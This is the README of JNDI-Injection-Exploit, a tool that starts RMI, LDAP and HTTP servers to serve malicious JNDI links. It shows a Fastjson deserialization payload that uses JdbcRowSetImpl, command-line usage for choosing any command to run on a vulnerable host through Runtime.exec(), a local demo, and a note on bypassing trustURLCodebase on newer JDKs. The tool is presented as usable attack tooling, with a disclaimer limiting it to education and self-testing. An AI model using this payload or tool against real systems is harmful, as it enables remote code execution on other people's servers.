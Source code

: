 # JNDI-Injection-Exploit

[Materials about JNDI Injection](https://www.blackhat.com/docs/us-16/materials/us-16-Munoz-A-Journey-From-JNDI-LDAP-Manipulation-To-RCE.pdf)

[中文文档](https://github.com/welk1n/JNDI-Injection-Exploit/blob/master/README-CN.md)

[相关文章](https://www.cnblogs.com/Welk1n/p/11066397.html)

## Description

JNDI-Injection-Exploit is a tool for generating workable JNDI links and provide background services by starting RMI server,LDAP server and HTTP server. RMI server and LDAP server are based on  [marshals](https://github.com/mbechler/marshalsec) and modified further to link with HTTP server. 

Using this tool allows you get JNDI links, you can insert these links into your **POC** to test vulnerability. 

For example, this is a Fastjson vul-poc:

```json
{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://127.0.0.1:1099/Object","autoCommit":true}
```

We can replace  "rmi://127.0.0.1:1099/Object" with the link generated by JNDI-Injection-Exploit to test vulnerability. 

## Disclaimer

All information and code is provided solely for educational purposes and/or testing your own systems for these vulnerabilities.

## Usage

 Run as

```shell
$ java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar [-C] [command] [-A] [address]
```

where:

- **-C** - command executed in the remote classfile.

  (optional , default command is "open /Applications/Calculator.app")

- **-A** - the address of your server, maybe an IP address or a domain.

  (optional , default address is the first network interface address)

Points for attention:

- make sure your server's ports (**1099**, **1389**, **8180**) are available .

  or you can change the default port in the run.ServerStart class line 26~28.

- your command is passed to **Runtime.getRuntime().exec()** as parameters, 

  so you need to ensure your command is workable in method exec().
  
  **Command in bash like "bash -c ...." need to add Double quotes.**

## Examples

 Local demo:

1. Start the tool like this:

   ```shell
   $ java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "open /Applications/Calculator.app" -A "127.0.0.1"
   ```

    Screenshot:

   ![image-20191018154346759](https://github.com/welk1n/JNDI-Injection-Exploit/blob/master/screenshots/1.png)

2. Assume that we inject the JNDI links like rmi://ADDRESS/jfxllc generated in step 1 to a vulnerable application which can be attacked by JNDI injection.

   In this example, it looks like this:

   ```java
   public static void main(String[] args) throws Exception{
       InitialContext ctx = new InitialContext();
       ctx.lookup("rmi://127.0.0.1/fgf4fp");
   }
   ```

   then when we run this code, the command will be executed ,

   and the log will be printed in shell:

   ![image-20191018154515787](https://github.com/welk1n/JNDI-Injection-Exploit/blob/master/screenshots/2.png)



## Installation

We can select one of the two methods to get the jar.

1. Download the latest jar from [Realease](https://github.com/welk1n/JNDI-Injection-Exploit/releases/download/v1.0/JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar).

2. Clone the source code to local and build (Requires Java 1.8+ and Maven 3.x+).

   ```shell
   $ git clone https://github.com/welk1n/JNDI-Injection-Exploit.git
   ```

   ```shell
   $ cd JNDI-Injection-Exploit
   ```

   ```shell
   $ mvn clean package -DskipTests
   ```

## To do

- (**Done**)Combine this project and [JNDI-Injection-Bypass](https://github.com/welk1n/JNDI-Injection-Bypass) to generate workable links when **trustURLCodebase is false** in higher versions of JDK by default.
- … ...